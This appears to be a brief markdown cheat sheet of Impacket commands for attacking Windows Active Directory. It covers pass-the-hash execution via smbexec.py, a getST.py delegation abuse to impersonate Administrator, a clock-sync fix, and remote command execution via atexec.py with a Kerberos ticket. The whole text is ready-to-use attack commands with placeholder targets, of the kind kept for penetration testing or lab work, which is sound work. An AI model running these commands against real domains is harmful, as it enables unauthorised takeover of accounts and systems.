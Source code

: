 # Impacket

## SMBExec
`smbexec.py -hashes <hash> <acc>@<dc>`

## GetST.py
Get Admin account from service account
`getST.py <dc>/<acc> -spn WWW/<dc> -hashes <hash> -impersonate Administrator`

If you get a clock skew too great error do:
`ntpdate <dc>`

## atexec.py
`export KRB5CCNAME=Administrator.ccache`

`atexec.py -k -no-pass <dc> <command>`
